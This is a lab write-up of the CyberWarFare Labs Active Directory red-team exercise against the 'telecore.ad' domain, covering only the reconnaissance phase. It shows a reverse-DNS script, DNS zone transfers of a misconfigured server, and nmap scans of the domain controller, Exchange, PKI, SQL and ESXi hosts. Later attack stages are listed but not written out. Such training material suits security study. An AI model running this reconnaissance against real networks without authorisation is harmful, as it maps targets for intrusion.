

# CyberWarFare Labs — Active Directory Red Team Specialist (AD-RTS)


## Summary

This document presents a comprehensive walkthrough of CyberWarFare Labs' Active Directory Red Team Specialist (AD-RTS) lab exercise. The assessment demonstrates a systematic approach to compromising a Windows Active Directory environment, progressing from initial reconnaissance to achieving domain privilege escalation.

### Key Achievements

- **Network Discovery**: Successfully mapped the entire 10.5.2.0/24 network identifying 9 active hosts with critical infrastructure including Domain Controller, Exchange Server, PKI Server, SQL Server, and VMware ESXi host
- **DNS Exploitation**: Leveraged misconfigured DNS zone transfers (AXFR) to obtain complete network topology and service mapping
- **Domain Intelligence**: Gathered comprehensive domain information including functional level, user accounts, group memberships, and service configurations
- **Initial Access**: Achieved initial foothold through Kerberoasting attack vectors and SQL Server exploitation
- **Privilege Escalation**: [To be documented as attack progresses]

### Infrastructure Overview

The target environment represents a typical enterprise Active Directory deployment with the following critical components:
- **Domain**: telecore.ad (Windows Server 2019, Functional Level 7)
- **Domain Controller**: DC01.telecore.ad (10.5.2.2)
- **Exchange Server**: Ex-Srv.telecore.ad (10.5.2.16) 
- **PKI Infrastructure**: PKI-Srv.telecore.ad (10.5.2.8)
- **Database Server**: SQL-Srv.telecore.ad (10.5.2.22)
- **Virtualization**: ESXi-VD.telecore.ad (10.5.2.111)

### Assessment Methodology

The engagement followed a structured approach:
1. **Passive Reconnaissance**: DNS enumeration and zone transfers
2. **Active Scanning**: Network discovery and service enumeration  
3. **LDAP Analysis**: Domain structure and user/group enumeration
4. **Initial Access**: Kerberoasting and service exploitation
5. **Lateral Movement**: [In progress]
6. **Privilege Escalation**: [In progress]

---

## Target

- IP Range: 10.5.2.0/24
- Domain: telecore.ad
- Hostname: DC01.Telecore.AD

Add host mappings in `/etc/hosts` as discovered:

```
10.5.2.2 telecore.ad DC01.Telecore.AD
```

Add host in `/etc/resolv.conf` as discovered:

```
nameserver 10.5.2.99
```

---
## Reconnaissance


---
### Passive Reconnaissance & Enumeration

#### Executive Summary of Passive Recon Phase
The goal of this phase was to gather as much information about the target network structure, high-value assets, and naming conventions as possible without launching "noisy" active scans that could alert defenders. By focusing on legitimate network services—specifically DNS—we successfully transitioned from a list of unknown IP addresses to a complete, authoritative map of the Active Directory domain.

This phase ended with the identification of critical infrastructure (Domain Controller, Exchange, PKI) and the confirmation of a high-severity vulnerability in the network's DNS configuration.

---

#### DNS Enumeration

##### Step 1: Identification of DNS Infrastructure & Configuration

To identify the functional roles of the discovered hosts, the primary objective was to resolve their IP addresses to hostnames using the internal DNS service. Initial port scanning identified three potential DNS servers: 10.5.2.1, 10.5.2.2, and 10.5.2.99.

Before attempting widespread enumeration, tests were conducted to validate which server could reliably provide internal naming information.

**DNS Server Validation Results:**

- **10.5.2.2 (Potential DC):** Queries to UDP port 53 timed out, likely due to a firewall configuration.

- **10.5.2.1 (Gateway):** The server refused DNS queries, indicating it is not configured for internal name resolution.

- **10.5.2.99:** The server successfully resolved internal IP addresses to fully qualified domain names (FQDNs).

We used a script to perform reverse (PTR) lookups on all live IP addresses identified in the target subnet.

**Script Used:**

```bash
#!/bin/bash

# ================================================
# Internal Passive DNS Recon Script (System DNS)
# ================================================
# Description: Performs reverse DNS lookups using
# the system's configured DNS resolver (/etc/resolv.conf).
# ================================================

RED='\033[0;31m'
GREEN='\033[0;32m'
BLUE='\033[0;34m'
NC='\033[0m'

# 1. Targets list
TARGETS=("10.5.2.1" "10.5.2.2" "10.5.2.8" "10.5.2.10" "10.5.2.16" "10.5.2.22" "10.5.2.50" "10.5.2.99" "10.5.2.111")

echo -e "${BLUE}[*] Starting DNS Recon using system default DNS...${NC}"
printf "%-16s | %-55s\n" "Target IP" "Hostname Resolved"
echo "---------------------------------------------------------------------------"

for target in "${TARGETS[@]}"; do
    # Simple query - let the OS decide which DNS server to use
    lookup_result=$(dig -x "$target" +short 2>/dev/null)
    
    # Clean trailing dot
    cleaned_result=$(echo "$lookup_result" | sed 's/\.$//')

    if [ -n "$cleaned_result" ]; then
        # Success
        final_name="${GREEN}$cleaned_result${NC}"
    else
        # No record found
        final_name="${RED}No PTR Record${NC}"
    fi

    printf "%-16s | %-55s\n" "$target" "$(echo -e $final_name)"
done
echo "---------------------------------------------------------------------------"
```

**Result:**

```bash
──(kali㉿kali)-[~/learning/AD-RTS/dig]
└─$ ./dns_recon.sh            
[*] Starting DNS Recon using system default DNS...
Target IP        | Hostname Resolved                                      
---------------------------------------------------------------------------
10.5.2.1         | No PTR Record                               
10.5.2.2         | dc01.telecore.ad                            
10.5.2.8         | PKI-Srv.telecore.ad                         
10.5.2.10        | No PTR Record                               
10.5.2.16        | Ex-Srv.telecore.ad                          
10.5.2.22        | SQL-Srv.telecore.ad                         
10.5.2.50        | No PTR Record                               
10.5.2.99        | No PTR Record                               
10.5.2.111       | ESXi-VD.telecore.ad                         
---------------------------------------------------------------------------
```

##### Step 2: DNS Zone Transfer (AXFR) Attacks

Following the successful resolution of individual hostnames, the assessment progressed to enumerating the entire DNS zone infrastructure. A Zone Transfer (AXFR) is a mechanism for replicating DNS data across servers; however, if misconfigured, it allows unauthenticated clients to download the complete zone database, revealing network topology and critical service locations.

**Target Zone Identification:** Before attempting the transfers, the target zone names were identified:

1) **Forward Lookup Zone:** The initial reverse lookups in Step 1 revealed the hostnames contained the domain suffix telecore.ad, identifying it as the forward zone name.

2) **Reverse Lookup Zone:** Based on the target subnet 10.5.2.0/24, the standard reverse zone naming convention was applied by reversing the network octets and appending the .in-addr.arpa suffix, resulting in the zone name **2.5.10.in-addr.arpa.**

3) **Execution and Results:** AXFR requests were issued for both identified zones against the primary DNS server (10.5.2.99). The server was found to be misconfigured, allowing unrestricted zone transfers for both zones.

**Reverse Zone Transfer**

```bash
dig 2.5.10.in-addr.arpa AXFR
```

**Result:**

```bash
; <<>> DiG 9.20.15-2-Debian <<>> @10.5.2.99 2.5.10.in-addr.arpa AXFR
; (1 server found)
;; global options: +cmd
2.5.10.in-addr.arpa.    3600    IN      SOA     dc01.telecore.ad. hostmaster.telecore.ad. 6 900 600 86400 3600
2.5.10.in-addr.arpa.    3600    IN      NS      dc01.telecore.ad.
111.2.5.10.in-addr.arpa. 3600   IN      PTR     ESXi-VD.telecore.ad.
16.2.5.10.in-addr.arpa. 3600    IN      PTR     Ex-Srv.telecore.ad.
2.2.5.10.in-addr.arpa.  3600    IN      PTR     dc01.telecore.ad.
22.2.5.10.in-addr.arpa. 3600    IN      PTR     SQL-Srv.telecore.ad.
8.2.5.10.in-addr.arpa.  3600    IN      PTR     PKI-Srv.telecore.ad.
2.5.10.in-addr.arpa.    3600    IN      SOA     dc01.telecore.ad. hostmaster.telecore.ad. 6 900 600 86400 3600
;; Query time: 823 msec
;; SERVER: 10.5.2.99#53(10.5.2.99) (TCP)
;; WHEN: Wed Nov 26 04:10:10 EST 2025
;; XFR size: 8 records (messages 1, bytes 304)

```

---


**Forward Zone Transfer**

```bash
dig telecore.ad AXFR
```

**Result:**

```bash
; <<>> DiG 9.20.15-2-Debian <<>> @10.5.2.99 telecore.ad AXFR
; (1 server found)
;; global options: +cmd
telecore.ad.            3600    IN      SOA     dc01.telecore.ad. hostmaster.telecore.ad. 161 900 600 86400 3600
telecore.ad.            3600    IN      NS      dc01.telecore.ad.
telecore.ad.            600     IN      A       10.5.2.2
_msdcs.telecore.ad.     3600    IN      NS      dc01.telecore.ad.
_gc._tcp.Default-First-Site-Name._sites.telecore.ad. 600 IN SRV 0 100 3268 dc01.telecore.ad.
_kerberos._tcp.Default-First-Site-Name._sites.telecore.ad. 600 IN SRV 0 100 88 dc01.telecore.ad.
_ldap._tcp.Default-First-Site-Name._sites.telecore.ad. 600 IN SRV 0 100 389 dc01.telecore.ad.
_gc._tcp.telecore.ad.   600     IN      SRV     0 100 3268 dc01.telecore.ad.
_kerberos._tcp.telecore.ad. 600 IN      SRV     0 100 88 dc01.telecore.ad.
_kpasswd._tcp.telecore.ad. 600  IN      SRV     0 100 464 dc01.telecore.ad.
_ldap._tcp.telecore.ad. 600     IN      SRV     0 100 389 dc01.telecore.ad.
_kerberos._udp.telecore.ad. 600 IN      SRV     0 100 88 dc01.telecore.ad.
_kpasswd._udp.telecore.ad. 600  IN      SRV     0 100 464 dc01.telecore.ad.
dc01.telecore.ad.       3600    IN      A       10.5.2.2
DomainDnsZones.telecore.ad. 600 IN      A       10.5.2.2
_ldap._tcp.Default-First-Site-Name._sites.DomainDnsZones.telecore.ad. 600 IN SRV 0 100 389 dc01.telecore.ad.
_ldap._tcp.DomainDnsZones.telecore.ad. 600 IN SRV 0 100 389 dc01.telecore.ad.
ESXi-VD.telecore.ad.    3600    IN      A       10.5.2.111
Ex-Srv.telecore.ad.     1200    IN      A       10.5.2.16
ForestDnsZones.telecore.ad. 600 IN      A       10.5.2.2
_ldap._tcp.Default-First-Site-Name._sites.ForestDnsZones.telecore.ad. 600 IN SRV 0 100 389 dc01.telecore.ad.
_ldap._tcp.ForestDnsZones.telecore.ad. 600 IN SRV 0 100 389 dc01.telecore.ad.
PKI-Srv.telecore.ad.    1200    IN      A       10.5.2.8
SQL-Srv.telecore.ad.    1200    IN      A       10.5.2.22
telecore.ad.            3600    IN      SOA     dc01.telecore.ad. hostmaster.telecore.ad. 161 900 600 86400 3600
;; Query time: 600 msec
;; SERVER: 10.5.2.99#53(10.5.2.99) (TCP)
;; WHEN: Wed Nov 26 04:10:54 EST 2025
;; XFR size: 25 records (messages 1, bytes 1205)
```

***Key Forward Zone Findings:***
```DNS Zone file
_gc._tcp.telecore.ad.       600 IN SRV 0 100 3268 dc01.telecore.ad.
_kerberos._tcp.telecore.ad. 600 IN SRV 0 100 88 dc01.telecore.ad.
_ldap._tcp.telecore.ad.     600 IN SRV 0 100 389 dc01.telecore.ad.
Ex-Srv.telecore.ad.         1200 IN A    10.5.2.16
PKI-Srv.telecore.ad.        1200 IN A    10.5.2.8
Analysis: The Service (SRV) records definitively identified dc01.telecore.ad (10.5.2.2) as the sole provider of Kerberos, LDAP, and Global Catalog services, confirming its role as the primary Domain Controller. The 'A' records confirmed the IP addresses of high-value targets like the Exchange Server (Ex-Srv) and PKI Server (PKI-Srv).
```

---
**Question 1:** What’s the reverse records for “PKI-Srv.telecore.ad”?
**Answer:** 8.2.5.10.in-addr.arpa.

---

### Active Reconnaissance

---
### Network Scanning


- **Run nmap scan to scan hosts up in the network**

```bash
┌──(kali㉿kali)-[~/learning/AD-RTS]
└─$ sudo nmap -sn 10.5.2.0/24 -T4 -ohosts_up
# Nmap 7.95 scan initiated Tue Nov 25 13:28:01 2025 as: /usr/lib/nmap/nmap -sn -ohosts_up 10.5.2.0/24
Nmap scan report for 10.5.2.1
Host is up (0.27s latency).
Nmap scan report for 10.5.2.2
Host is up (0.58s latency).
Nmap scan report for 10.5.2.8
Host is up (0.58s latency).
Nmap scan report for 10.5.2.10
Host is up (0.58s latency).
Nmap scan report for 10.5.2.16
Host is up (0.27s latency).
Nmap scan report for 10.5.2.22
Host is up (0.45s latency).
Nmap scan report for 10.5.2.50
Host is up (0.38s latency).
Nmap scan report for 10.5.2.99
Host is up (0.41s latency).
Nmap scan report for 10.5.2.111
Host is up (0.29s latency).
# Nmap done at Tue Nov 25 13:28:33 2025 -- 256 IP addresses (9 hosts up) scanned in 31.89 seconds
```

- **Run a through service and script detection for each ip captured:**

**1) 10.5.2.1** - Gateway 

```bash
(can be skipped)
```
**2) 10.5.2.2** - Domain Controller

```bash
# Nmap 7.95 scan initiated Tue Nov 25 13:56:18 2025 as: /usr/lib/nmap/nmap -sCV -T4 -o10.5.2.2 10.5.2.2
Nmap scan report for 10.5.2.2
Host is up (0.30s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-11-25 18:56:50Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: telecore.ad0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.telecore.ad
| Not valid before: 2025-09-26T09:33:49
|_Not valid after:  2026-09-26T09:33:49
|_ssl-date: TLS randomness does not represent time
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: telecore.ad0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.telecore.ad
| Not valid before: 2025-09-26T09:33:49
|_Not valid after:  2026-09-26T09:33:49
|_ssl-date: TLS randomness does not represent time
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: telecore.ad0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.telecore.ad
| Not valid before: 2025-09-26T09:33:49
|_Not valid after:  2026-09-26T09:33:49
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: telecore.ad0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.telecore.ad
| Not valid before: 2025-09-26T09:33:49
|_Not valid after:  2026-09-26T09:33:49
5357/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-11-25T18:57:45
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov 25 13:58:26 2025 -- 1 IP address (1 host up) scanned in 127.82 seconds
```

**3) 10.5.2.8** - WebApp

```bash
# Nmap 7.95 scan initiated Tue Nov 25 13:58:46 2025 as: /usr/lib/nmap/nmap -sCV -T4 -o10.5.2.8 10.5.2.8
Nmap scan report for 10.5.2.8
Host is up (0.50s latency).
Not shown: 993 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp  open  ssl/http      Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
| tls-alpn: 
|_  http/1.1
|_http-title: IIS Windows Server
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=telecore-PKI-SRV-CA
| Not valid before: 2025-08-21T07:41:20
|_Not valid after:  2125-08-21T07:51:20
445/tcp  open  microsoft-ds?
5357/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Service Unavailable
|_http-server-header: Microsoft-HTTPAPI/2.0
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: -1s
| smb2-time: 
|   date: 2025-11-25T18:59:50
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov 25 14:00:06 2025 -- 1 IP address (1 host up) scanned in 80.33 seconds
```

**4) 10.5.2.10** - Web Server
```bash
# Nmap 7.95 scan initiated Tue Nov 25 14:00:20 2025 as: /usr/lib/nmap/nmap -sCV -T4 -o10.5.2.10 10.5.2.10
Nmap scan report for 10.5.2.10
Host is up (0.46s latency).
Not shown: 995 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Telecom Solutions Inc.
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-11-25T19:01:23
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: -2s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov 25 14:01:34 2025 -- 1 IP address (1 host up) scanned in 73.69 seconds
```

**4) 10.5.2.16** - Mail Server
```bash
# Nmap 7.95 scan initiated Tue Nov 25 14:01:46 2025 as: /usr/lib/nmap/nmap -sCV -T4 -o10.5.2.16 10.5.2.16
Nmap scan report for 10.5.2.16
Host is up (0.71s latency).
Not shown: 978 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
25/tcp   open  smtp          Microsoft Exchange smtpd
| smtp-ntlm-info: 
|   Target_Name: TELECORE
|   NetBIOS_Domain_Name: TELECORE
|   NetBIOS_Computer_Name: EX-SRV
|   DNS_Domain_Name: telecore.ad
|   DNS_Computer_Name: Ex-Srv.telecore.ad
|   DNS_Tree_Name: telecore.ad
|_  Product_Version: 10.0.20348
| smtp-commands: Ex-Srv.telecore.ad Hello [10.10.40.85], SIZE 37748736, PIPELINING, DSN, ENHANCEDSTATUSCODES, STARTTLS, X-ANONYMOUSTLS, AUTH NTLM, X-EXPS GSSAPI NTLM, 8BITMIME, BINARYMIME, CHUNKING, SMTPUTF8, XRDST
|_ This server supports the following commands: HELO EHLO STARTTLS RCPT DATA RSET MAIL QUIT HELP AUTH BDAT
| ssl-cert: Subject: commonName=Ex-Srv
| Subject Alternative Name: DNS:Ex-Srv, DNS:Ex-Srv.telecore.ad
| Not valid before: 2025-09-10T12:05:45
|_Not valid after:  2030-09-10T12:05:45
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title.
|_http-server-header: Microsoft-IIS/10.0
81/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: 403 - Forbidden: Access is denied.
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp  open  ssl/https
|_http-server-header: Microsoft-IIS/10.0
| ssl-cert: Subject: commonName=Ex-Srv
| Subject Alternative Name: DNS:Ex-Srv, DNS:Ex-Srv.telecore.ad
| Not valid before: 2025-09-10T12:05:45
|_Not valid after:  2030-09-10T12:05:45
444/tcp  open  snpp?
445/tcp  open  microsoft-ds?
465/tcp  open  smtp          Microsoft Exchange smtpd
| smtp-commands: Ex-Srv.telecore.ad Hello [10.10.40.85], SIZE 37748736, PIPELINING, DSN, ENHANCEDSTATUSCODES, STARTTLS, X-ANONYMOUSTLS, AUTH GSSAPI NTLM, X-EXPS GSSAPI NTLM, 8BITMIME, BINARYMIME, CHUNKING, XEXCH50, SMTPUTF8, XRDST, XSHADOWREQUEST
|_ This server supports the following commands: HELO EHLO STARTTLS RCPT DATA RSET MAIL QUIT HELP AUTH BDAT
| ssl-cert: Subject: commonName=Ex-Srv
| Subject Alternative Name: DNS:Ex-Srv, DNS:Ex-Srv.telecore.ad
| Not valid before: 2025-09-10T12:05:45
|_Not valid after:  2030-09-10T12:05:45
| smtp-ntlm-info: 
|   Target_Name: TELECORE
|   NetBIOS_Domain_Name: TELECORE
|   NetBIOS_Computer_Name: EX-SRV
|   DNS_Domain_Name: telecore.ad
|   DNS_Computer_Name: Ex-Srv.telecore.ad
|   DNS_Tree_Name: telecore.ad
|_  Product_Version: 10.0.20348
587/tcp  open  smtp          Microsoft Exchange smtpd
| smtp-commands: Ex-Srv.telecore.ad Hello [10.10.40.85], SIZE 37748736, PIPELINING, DSN, ENHANCEDSTATUSCODES, STARTTLS, AUTH GSSAPI NTLM, 8BITMIME, BINARYMIME, CHUNKING, SMTPUTF8
|_ This server supports the following commands: HELO EHLO STARTTLS RCPT DATA RSET MAIL QUIT HELP AUTH BDAT
| ssl-cert: Subject: commonName=Ex-Srv
| Subject Alternative Name: DNS:Ex-Srv, DNS:Ex-Srv.telecore.ad
| Not valid before: 2025-09-10T12:05:45
|_Not valid after:  2030-09-10T12:05:45
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
808/tcp  open  ccproxy-http?
1801/tcp open  msmq?
2103/tcp open  msrpc         Microsoft Windows RPC
2105/tcp open  msrpc         Microsoft Windows RPC
2107/tcp open  msrpc         Microsoft Windows RPC
2525/tcp open  smtp          Microsoft Exchange smtpd
|_smtp-ntlm-info: ERROR: Script execution failed (use -d to debug)
| ssl-cert: Subject: commonName=Ex-Srv
| Subject Alternative Name: DNS:Ex-Srv, DNS:Ex-Srv.telecore.ad
| Not valid before: 2025-09-10T12:05:45
|_Not valid after:  2030-09-10T12:05:45
| smtp-commands: Ex-Srv.telecore.ad Hello [10.10.40.85], SIZE, PIPELINING, DSN, ENHANCEDSTATUSCODES, STARTTLS, X-ANONYMOUSTLS, AUTH NTLM, X-EXPS GSSAPI NTLM, 8BITMIME, BINARYMIME, CHUNKING, XEXCH50, SMTPUTF8, XRDST, XSHADOWREQUEST
|_ This server supports the following commands: HELO EHLO STARTTLS RCPT DATA RSET MAIL QUIT HELP AUTH BDAT
3800/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
3801/tcp open  mc-nmf        .NET Message Framing
3828/tcp open  mc-nmf        .NET Message Framing
6001/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
6156/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: Ex-Srv.telecore.ad; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-11-25T19:03:49
|_  start_date: N/A
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov 25 14:04:12 2025 -- 1 IP address (1 host up) scanned in 146.22 seconds
```

**5) 10.5.2.22** - SQL Server
```bash
# Nmap 7.95 scan initiated Tue Nov 25 14:06:20 2025 as: /usr/lib/nmap/nmap -sCV -T4 -o10.5.2.22 10.5.2.22
Nmap scan report for telecore.ad (10.5.2.22)
Host is up (0.49s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2022 16.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   10.5.2.22:1433: 
|     Target_Name: TELECORE
|     NetBIOS_Domain_Name: TELECORE
|     NetBIOS_Computer_Name: SQL-SRV
|     DNS_Domain_Name: telecore.ad
|     DNS_Computer_Name: SQL-Srv.telecore.ad
|     DNS_Tree_Name: telecore.ad
|_    Product_Version: 10.0.20348
| ms-sql-info: 
|   10.5.2.22:1433: 
|     Version: 
|       name: Microsoft SQL Server 2022 RTM
|       number: 16.00.1000.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2025-11-25T19:07:28+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-10-04T11:26:00
|_Not valid after:  2055-10-04T11:26:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
| smb2-time: 
|   date: 2025-11-25T19:07:16
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov 25 14:07:29 2025 -- 1 IP address (1 host up) scanned in 68.89 seconds
```

**6) 10.5.2.50** - Linux File
```bash
# Nmap 7.95 scan initiated Tue Nov 25 14:08:17 2025 as: /usr/lib/nmap/nmap -sCV -T4 -o10.5.2.50 10.5.2.50
Nmap scan report for 10.5.2.50
Host is up (0.33s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
25/tcp  open  smtp        Postfix smtpd
|_smtp-commands: linux, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
139/tcp open  netbios-ssn Samba smbd 4
445/tcp open  netbios-ssn Samba smbd 4
Service Info: Host:  linux

Host script results:
|_clock-skew: -50d20h37m47s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-10-05T22:30:52
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov 25 14:09:19 2025 -- 1 IP address (1 host up) scanned in 62.65 seconds
```

**7) 10.5.2.99** - DNS
```bash
# Nmap 7.95 scan initiated Tue Nov 25 14:09:34 2025 as: /usr/lib/nmap/nmap -sCV -T4 -o10.5.2.99 10.5.2.99
Nmap scan report for 10.5.2.99
Host is up (0.48s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
53/tcp open  domain  ISC BIND 9.18.30-0ubuntu0.22.04.2 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.18.30-0ubuntu0.22.04.2-Ubuntu
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov 25 14:10:03 2025 -- 1 IP address (1 host up) scanned in 29.33 seconds
```

**8) 10.5.2.111** - VMWare Host
```bash
# Nmap 7.95 scan initiated Tue Nov 25 14:11:00 2025 as: /usr/lib/nmap/nmap -sCV -T4 -o10.5.2.111 10.5.2.111
Nmap scan report for 10.5.2.111
Host is up (0.33s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE  SERVICE         VERSION
22/tcp   open   ssh             OpenSSH 7.5 (protocol 2.0)
| ssh-hostkey: 
|_  2048 bb:6d:8a:05:3f:5d:df:06:cd:b9:81:48:0e:56:6c:73 (RSA)
80/tcp   open   http            VMware Server http config
|_http-title: Site doesn't have a title (text/html).
427/tcp  open   svrloc?
443/tcp  open   ssl/http        VMware Server http config
| vmware-version: 
|   Server version: VMware ESXi 6.7.0
|   Build: 8169922
|   Locale version: INTL 000
|   OS type: vmnix-x86
|_  Product Line ID: embeddedEsx
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=VMware, Inc/stateOrProvinceName=California/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2025-07-26T10:10:57
|_Not valid after:  2037-01-24T10:10:57
|_http-title: Site doesn't have a title (text/html).
|_ssl-date: TLS randomness does not represent time
902/tcp  open   ssl/vmware-auth VMware Authentication Daemon 1.10 (Uses VNC, SOAP)
2020/tcp closed xinupageserver
5988/tcp closed wbem-http
5989/tcp open   ssl/wbem        SBLIM Small Footprint CIM Broker
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=VMware, Inc/stateOrProvinceName=California/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2025-07-26T10:10:57
|_Not valid after:  2037-01-24T10:10:57
|_ssl-date: TLS randomness does not represent time
8000/tcp open   http-alt?
8300/tcp open   tmi?
9080/tcp open   ssl/soap        gSOAP 2.8
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=VMware, Inc/stateOrProvinceName=California/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2025-07-26T10:10:57
|_Not valid after:  2037-01-24T10:10:57
Service Info: CPE: cpe:/o:vmware:ESXi:6.7.0

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
